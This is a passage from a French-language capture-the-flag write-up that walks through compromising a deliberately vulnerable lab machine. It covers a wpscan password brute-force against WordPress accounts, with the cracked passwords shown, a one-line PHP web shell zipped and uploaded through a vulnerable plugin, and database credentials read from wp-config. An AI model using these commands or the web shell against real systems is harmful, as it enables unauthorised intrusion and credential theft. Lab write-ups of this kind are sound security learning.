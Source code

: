 ```console
```

D'après le scan Nmap, le serveur _ProFTPd_ serait vulnérable à la faille _mod_copy_ déjà exploitée sur le [CTF Symfonos #2]({% link _posts/2023-02-20-Solution-du-CTF-Symfonos-2-de-VulnHub.md %}).

Mais ici l'accès nécessite des identifiants valides, on ne peut donc pas tenter d'utiliser la faille pour exfiltrer des données.

En jetant un œil dans le dossier `/wp-content/uploads/` je remarque un dossier nommé `articulate_uploads` qui semble faire référence au plugin `Insert or Embed Articulate Content into WordPress` or ce plugin est touché par une vulnérabilité :

[WordPress Plugin Insert or Embed Articulate Content into WordPress - Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/46981)

Il faut disposer d'un compte sur le Wordpress pour l'exploitation, mais on devine quelle sera notre prochaine étape.

Nmap ayant déjà fait l'énumération des utilisateurs Wordpress pour nous, il ne nous reste qu'à bruteforcer les mots de passe de ces comptes :

```bash
docker run --add-host five86-2:192.168.56.142 -v /tools/wordlists/:/data/  -it --rm wpscanteam/wpscan --url http://five86-2/ -U admin,peter,barney,gillian,stephen -P /data/rockyou.txt
```

Il faut compter un bon moment, mais deux finissent par tomber :

```
[SUCCESS] - barney / spooky1                                                                                                                                                                                      
[SUCCESS] - stephen / apollo1
```

Le premier est celui qui nous intéresse, car il dispose de suffisamment de droits pour publier des articles. L'exploitation du plugin vulnérable se fait en effet lors de l'édition d'un article.

On suit la procédure de l'exploit à savoir créer une archive ZIP contenant un html et un php :

```bash
echo "<html>hello</html>" > index.html
echo '<?php echo system($_GET["cmd"]); ?>' > index.php
zip poc.zip index.html index.php 
```

Sur l'article, il faut alors ajouter un block de type e-learning et uploader le ZIP.
On retrouve ainsi notre shell PHP à l'adresse `/wp-content/uploads/articulate_uploads/poc/index.php`.

## I'm watching your packets

Je commence par récupérer les identifiants de base de données dans la configuration du Wordpress :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb' );

/** MySQL database username */
define( 'DB_USER', 'dbuser' );

/** MySQL database password */
define( 'DB_PASSWORD', '4Te3bRd483e' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
